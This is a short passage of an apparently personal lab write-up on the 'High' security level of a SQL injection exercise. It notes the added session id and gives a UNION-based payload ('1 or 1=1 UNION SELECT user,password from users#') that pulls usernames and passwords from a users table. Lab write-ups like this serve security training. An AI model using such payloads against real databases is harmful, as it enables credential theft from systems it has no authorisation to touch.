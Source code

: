 ![Alt text](./images/sqlunionm.png)

##### High Mode

For the high mode on sql section i discovered checking the source code that session id was implemented but the sql syntax was similar to the one of the low mode where i had to escape quotes so i ran a similar syntax 

```bash
 1 or 1=1 UNION SELECT user,password from users#
```

![Alt text](./images/sqlunionh.png)
